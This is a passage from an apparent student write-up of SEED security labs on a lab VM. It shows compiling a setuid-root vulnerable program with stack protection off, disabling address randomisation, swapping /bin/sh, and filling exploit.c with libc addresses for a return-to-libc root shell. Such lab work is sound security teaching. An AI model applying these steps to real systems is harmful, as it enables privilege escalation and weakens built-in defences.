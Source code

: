 We get:

```
[11/25/18]seed@VM:~/00$ ./stack 
*** stack smashing detected ***: ./stack terminated
Aborted (core dumped)
```

### 004 Task 6 Turn on the Non-executable Stack Protection

This is just a try, not a bypass-test.

```bash
gcc -o stack -fno-stack-protector -z noexecstack stack.c
sudo chown root stack
sudo chmod 4755 stack
```

We get:

```
[11/25/18]seed@VM:~/00$ ./stack 
Segmentation fault (core dumped)
```

## 01 Return-to-libc Attack Lab

http://www.cis.syr.edu/~wedu/seed/Labs_16.04/Software/Return_to_Libc/

### 010 Task 1 Exploiting the Vulnerability

Prepare the environment and program:

```bash
sudo /sbin/sysctl -w kernel.randomize_va_space=0

gcc -o retlib -z noexecstack -fno-stack-protector retlib.c
sudo chown root retlib
sudo chmod 4755 retlib
sudo rm /bin/sh
sudo ln -s /bin/zsh /bin/sh
# to generate core file
ulimit -c unlimited
# as root
echo "1" > /proc/sys/fs/suid_dumpable
```

Find the related addresses:

![Screen Shot 2018-11-26 at 5.54.53 PM.png]({{ site.url }}/images/seed/B40F6ED69B705037316B9F5BD7F7257E.png)

And it is easy to find the offset. Then complete exploit.c:

```c
// exploit.c
/* You need to decide the addresses and 
 the values for X, Y, Z. The order of the following 
 three statements does not imply the order of X, Y, Z.
 Actually, we intentionally scrambled the order. */
*(long *) &buf[24] = 0xb7e42da0 ;   //  system()
*(long *) &buf[28] = 0xb7e369d0 ;   //  exit()
*(long *) &buf[32] = 0xb7f6382b ;   //  "/bin/sh:
```
